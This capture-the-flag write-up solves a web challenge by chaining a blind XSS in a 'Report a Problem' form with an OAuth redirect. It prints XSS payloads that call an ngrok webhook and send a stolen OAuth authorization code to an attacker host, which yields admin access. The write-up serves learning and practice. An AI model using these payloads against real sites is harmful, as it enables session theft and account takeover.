









## Sticky Notes
---
### Description



Given 2 website application 
* `:30783` is an oauth application
* `:30846` is a sticky notes

So, in sticky notes application there's a menu named as `Report a Problem`.



When I try to report a problem, I get a response that our report will be checked by admin. 



My first thought about this, it must be a blind XSS. So, lets give a shot. Let's put an XSS payload and make the client trigger our webhook.


```
<script>
fetch('//6.tcp.ngrok.io:13136/')
</script>
```

Hit the report button and we got a response!


Great, its really blind XSS. But, the cookies is flagged with `HttpOnly` of course, we couldn't steal the cookies.

Lets understanding how is this application work. In sticky notes, if we want to login, We need to login in oauth application first.

Everytime we visit `oauth/oauth/authorize?state=nyx&redirect_uri=sticky-notes/signin_callback` we will get redirected to the value of `redirect_uri`. And the value of `redirect_uri` will have a new parameter called `code` and then the `sticky-notes` will creating a new session for the current logged in user in `oauth` application.

In summarize, the flow of oauth login for this application is something like this

`sticky-notes/oauth/signin -> oauth/oauth/authorize?response_type=code&client_id=QJ7Bo88ZBioNTZSXTOJrMYDx&redirect_uri=http%3A%2F%2Fchallenge.ctf.games%3A30846%2Foauth%2Fsignin_callback&scope=profile&state=nyx&action=signin -> sticky-notes/signin_callback?code=sorcerer&state=nyx -> sticky-notes/`

My first thought about this, "Can I abuse `redirect_uri` and redirected to our webhook and getting the code?"

i was focused on this and forgot `oauth` is vulnerable to clickjacking and we could write javascript onto it.

So, what We need to do is iframing the `oauth/oauth/authorize?redirect_uri=sticky-notes/oauth/signin_callback&state=nyx`

We creating a valid parameter `state` by clicking `sign-in` in `sticky-notes` and intercept our request. Make sure the `state` is not processed by `oauth/oauth/authorize` to make it the `state` is in valid condition

Create a javascript to send the current `location.href` to the our webhook

the final payload will be like this

```
<iframe src="http://challenge.ctf.games:30783/oauth/authorize?response_type=code&client_id=QJ7Bo88ZBioNTZSXTOJrMYDx&redirect_uri=http%3A%2F%2Fchallenge.ctf.games%3A30846%2Foauth%2Fsignin_callback&scope=profile&state=Kjq4dAo18GjizCdF4sYxxO9GVFMddx&action=signin">
</iframe>
<script>
document.querySelector('iframe').addEventListener("load", function(){
    fetch('//ip_addr:port/?'+btoa(this.contentWindow.location.href))
})
</script>
```



Hit the report button and wait a little bits, waiting our javascript is triggered by client user.



Great! we got the `code` let's visit the url we got



We success got admin and of course we got the FLAG!

